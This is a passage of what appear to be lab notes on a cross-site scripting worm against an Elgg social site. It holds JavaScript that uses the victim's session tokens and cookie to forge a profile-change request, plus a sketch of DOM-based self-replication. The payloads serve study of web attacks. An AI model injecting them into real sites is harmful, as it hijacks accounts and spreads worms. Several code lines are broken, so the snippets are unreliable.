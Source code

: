 ```js
}
</script>
```

### POST with Js - modify profile

![Screen Shot 2020-09-20 at 01.02.54](https://i.imgur.com/75zUEkB.png)

1. capture the POST request packet

2. construct the URL for send add friend Request

3. write the Ajax code

```js
<script type="text/javascript">
window.onload = function(){

    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    //Construct the content
    var content = "My new profile text.";

    //Create and send Ajax request to modify profile
    Ajax = null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Host", "www.web.com");
    Ajax.setRequestHeader("Keep-Alive", "300");
    Ajax.setRequestHeader("Connection", "keep-alive");
    Ajax.setRequestHeader("Cookie", document.cookie);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
}
```

### self-propagation
- exponential growth
- dynamically generate code


ID/DOM Approach:
- If the entire JavaScript program (worm) is embedded in the infected profile
- the worm code can use `DOM APIs` to retrieve a copy of itself from the web page.
- This code gets a copy of itself, and display it in an alert window:
```js
<script id=="worm" type="text/javascript">

    // innerHTML (line ➁) only gives us the inside part of the code,
    var copy = document.getElementById("worm").innerHTML;

    header = "<script id==\"worm\" type=\"text/javascript\">";
    tail = "</" + "script>";
    var wormCode = encodeURIComponent(header_copy+tail);
    alert(jsCode);
</script>
```
